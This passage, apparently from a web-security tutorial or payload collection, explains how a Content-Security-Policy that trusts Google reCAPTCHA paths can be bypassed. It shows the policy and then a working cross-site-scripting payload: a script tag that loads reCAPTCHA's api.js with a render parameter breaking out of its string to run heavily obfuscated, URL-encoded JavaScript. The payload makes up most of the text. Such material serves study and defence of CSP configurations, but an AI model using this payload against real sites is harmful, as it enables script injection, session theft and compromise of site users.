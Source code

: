 ```
Content-Security-Policy: 
  default-src 'self';
  style-src 'unsafe-inline' 'self';
  script-src https://xyz.example.com/scripts/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; 
  frame-src 'self' https://www.google.com/recaptcha/;
```

which only allows scripts to be loaded from `http://xyz.example.com/scripts/`, `https://www.gstatic.com/recaptcha/` and `https://www.google.com/recaptcha/`. The latter two are needed in order to make `reCAPTCHA` work.


Even though the website `http://xyz.example.com/` was not vulnerable to the `XSS Injection` itself there was a mistake made by trusting the `reCAPTCHA` being safe to use.

The attacker one day created a note containing:

```
<script src="https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27"></script>
```
